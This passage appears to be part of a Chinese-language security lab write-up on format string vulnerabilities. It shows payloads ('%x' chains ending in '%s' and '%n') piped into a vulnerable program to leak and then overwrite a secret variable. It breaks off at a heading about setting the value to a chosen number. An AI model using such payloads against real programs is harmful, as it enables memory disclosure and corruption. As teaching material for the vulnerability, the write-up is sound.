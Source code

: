 在第 10 个位置，因此可将第 10 个%x 改为%s

```bash
./write

%x.%x.%x.%x.%x.%x.%x.%x.%x.%s

./vul < mystring
```

![image-20220321003402842](FormatString/image-20220321003402842.png)

成功显示 secret[1]的值。

### 修改secret[1]值

```bash
./write

%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%n

./vul < mystring
```

![image-20220321003804381](FormatString/image-20220321003804381.png)

0x4c 即十进制的 76，因为 9*8+4=76。

### 修改 secret[1]为指定值
